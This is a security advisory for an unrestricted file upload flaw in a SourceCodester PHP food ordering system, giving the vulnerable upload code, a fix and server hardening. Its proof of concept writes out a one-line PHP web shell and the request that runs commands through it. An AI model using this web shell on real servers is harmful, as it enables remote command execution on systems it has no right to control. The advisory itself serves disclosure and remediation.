

# sourcecodester Online Food Ordering System in PHP and MySQL Source Code — Unrestricted File Upload Leading to Remote Code Execution

## Vendor

SourceCodester

## Product

Online Food Ordering System in PHP and MySQL Source Code  
Product URL: https://www.sourcecodester.com/php/18232/food-order-system.html

## Vulnerability

An unrestricted upload may allow a file with a dangerous extension to be stored in a web-accessible directory and executed (CWE-434).

**Discovered by:** Shailendra Mourya (CyberShailendra)  
**Affected files:** `admin/add_food.php`; similar upload checks are reported as missing in `admin/update_food.php` and `admin/update_category.php`  
**Report date:** 2026-10-10  
**Status:** Reported as reproduced on a local XAMPP test instance.

---

## Finding Details

**Entry:** VDB-426509

**CVE ID:** CVE-2026-116603


| Field | Value |
|---|---|
| **Title** | Online Food Ordering System `add_food.php` Unrestricted File Upload RCE |
| **Affected File** | `admin/add_food.php` (same missing check in `admin/update_food.php`, `admin/update_category.php`) |
| **Vulnerability Type** | Unrestricted Upload of File with Dangerous Type (CWE-434) |
| **Attack Vector** | Network (remote), requires authenticated admin session (or can be chained with VDB-NC-003/auth-bypass issues) |
| **Authentication Required** | Admin (but see `user_logged.php` missing `exit()` bug — can be bypassed) |
| **CVSS 3.1 Vector (estimated)** | AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H |
| **CVSS 3.1 Score (estimated)** | 9.1 (Critical) |
| **Root Cause** | File extension taken directly from the uploaded filename with no allow-list and no content validation: `$ext = pathinfo($image_name, PATHINFO_EXTENSION); $new_image_name = 'food_'.rand(000,999).'.'.$ext;` The destination folder `images/food/` is web-accessible and Apache executes `.php` files placed there. |
| **Proof of Concept** | 1. Upload a file named `shell.php` containing `<?php system($_GET['cmd']); ?>` via the Add Food form's image field. <br>2. Request `GET /web/images/food/food_93.php?cmd=whoami` |
| **Observed Impact** | Server returned `cybershailendra\shailendra` — confirmed arbitrary OS command execution under the Apache/PHP process account. |
| **Confirmed By** | User, local XAMPP instance, 2026-10-10 — `whoami` output returned via browser. |
| **Remediation** | Enforce a strict image extension allow-list (`jpg`, `jpeg`, `png`, `gif`, `webp`), validate the file is a genuine image via `getimagesize()`, store uploads outside the webroot or in a directory with PHP execution disabled (`.htaccess` / web server config), and rename uploads to a non-guessable name. |

---

## Evidence Screenshots




## Technical Details — Vulnerable Code (`admin/add_food.php`)

```php
if(isset($_FILES['image']['name']) && $_FILES['image']['name'] !=""){
    $image_name = $_FILES['image']['name'];
    $ext = pathinfo($image_name, PATHINFO_EXTENSION);     // <-- no allow-list check
    $new_image_name = 'food_'.rand(000, 999). '.'.$ext;   // <-- extension kept as-is
    $image_src = $_FILES['image']['tmp_name'];
    $image_destination = '../images/food/'.$new_image_name;
    $upload_image = move_uploaded_file($image_src, $image_destination);
    if($upload_image == false){
        echo "image failed";
        die();
    }
}else{
    $new_image_name = "";
}
```

The extension is copied directly from the submitted filename, and the code does not confirm that the uploaded content is an image. The file is then placed in the web-accessible `images/food/` directory. On a server configured to execute PHP there, an uploaded PHP file can run when requested.

---

## Remediation Code

```php
if(isset($_FILES['image']['name']) && $_FILES['image']['name'] != ""){
    $image_name = $_FILES['image']['name'];
    $ext = strtolower(pathinfo($image_name, PATHINFO_EXTENSION));
    $allowed_ext = ['jpg', 'jpeg', 'png', 'gif', 'webp'];

    // verify the upload is really an image, not just renamed
    $check = @getimagesize($_FILES['image']['tmp_name']);

    if(!in_array($ext, $allowed_ext) || $check === false){
        $errors[] = "Only image files (jpg, jpeg, png, gif, webp) are allowed";
    } else {
        $new_image_name = 'food_'.uniqid().'_'.rand(1000,9999). '.'.$ext;
        $image_destination = '../images/food/'.$new_image_name;
        if(!move_uploaded_file($_FILES['image']['tmp_name'], $image_destination)){
            $errors[] = "Image upload failed";
        }
    }
} else {
    $errors[] = "Please select an image";
}
```

### Defense-in-depth (Recommended)
Disable PHP execution inside `images/` via an `.htaccess` rule:
```apache
php_flag engine off
# Or:
<FilesMatch "\.php$">
    Require all denied
</FilesMatch>
```
This ensures that even if a file slips past upload validation, it cannot be executed by the web server.

---

